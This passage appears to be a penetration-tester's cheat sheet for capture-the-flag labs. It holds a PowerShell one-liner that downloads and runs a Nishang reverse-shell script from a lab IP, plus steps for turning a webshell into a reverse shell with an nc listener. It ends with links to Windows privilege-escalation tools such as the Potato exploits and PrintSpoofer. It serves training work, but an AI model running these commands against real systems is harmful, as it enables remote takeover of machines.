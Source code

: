 `powershell.exe IEX(New-Object Net.WebClient).downloadString('http://192.168.49.120:8000/Invoke-PowerShellTcp.ps1')`
More info in writeup for [Optimum](https://0xdf.gitlab.io/2021/03/17/htb-optimum.html)

### Fix $PATH on Windows (good if whoami, certutil and other exe's are "not recognized")
`set PATH=%SystemRoot%\system32;%SystemRoot%;` 

### Webshell to reverse shell with powershell
```
From Webshell, it’s time to get an interactive shell. I’ll go with my Windows stand-by, Nishang Invoke-PowerShellTcp.ps1.

Make a copy of it in the local directory.
Add a line to the end: Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.15 -Port 443
Start python3 -m http.server 80 in that same directory
Start nc -lnvp 443
Visit: http://10.10.10.116/upload/0xdf.asp?cmd=powershell%20iex(New-Object%20Net.Webclient).downloadstring(%27http://10.10.14.15/Invoke-PowerShellTcp.ps1%27)
``` 

### Windows PrivEsc
[Windows PrivEsc Tokens SEImpersonate SEAssign whoami /priv](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens)

[living off the land binaries lolbas](https://lolbas-project.github.io/)

[Privilege Escalation with Potato](https://jlajara.gitlab.io/Potatoes_Windows_Privesc)

[CVE-2021-4034 PKexec Polkit](https://github.com/arthepsy/CVE-2021-4034)

[Ghostpack binaries - sharpup seatbelt rubeus](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries)

[Windows PrivEsc DLL Injection w/ MSFVenom](abhizer.com/windows-privilege-escalation-dnsadmin-to-domaincontroller/)

[Rotten Potato – Privilege Escalation from Service Accounts to SYSTEM](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/)

[Rotten Potato Binary download](https://github.com/breenmachine/RottenPotatoNG)

[Windows PrivEsc For Windows 10 1809 or higher](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/)

[PrintSpoofer Windows PrivEsc < Win10 1809](https://github.com/itm4n/PrintSpoofer)

[Juicy Potato](https://github.com/ohpe/juicy-potato)

[Juicy Potato x86](https://github.com/ivanitlearning/Juicy-Potato-x86)


--------------------------------------------
# File Transfers 
